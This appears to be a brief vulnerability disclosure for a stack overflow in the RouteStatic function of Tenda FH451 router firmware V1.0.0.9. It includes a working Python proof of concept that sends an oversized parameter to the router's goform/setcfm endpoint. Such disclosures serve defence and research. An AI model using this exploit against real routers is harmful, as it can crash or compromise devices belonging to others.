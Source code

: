 ## Overview
Firmware download website: https://www.tenda.com.cn/download/detail-1629.html
## Affected version

FH451  V1.0.0.9
## Vulnerability details

Tenda FH451 V1.0.0.9 has a stack overflow vulnerability located in the RouteStatic function.Without checking the length of the parameter var, it was assigned to stackspace v4
![[2024-08-30 154737.png]]
## POC

```python
import requests as re

s = re.Session()
url_base = 'http://192.168.109.145/'

url = url_base + 'goform/setcfm'
data = {
        'funcname': 'save_list_data', 
        'funcpara1': b'a'*0x500, 
        'funcpara2':'aaaaaa'
}

res = re.post(url, data=data)
```
![[2024-08-30 160328.png]]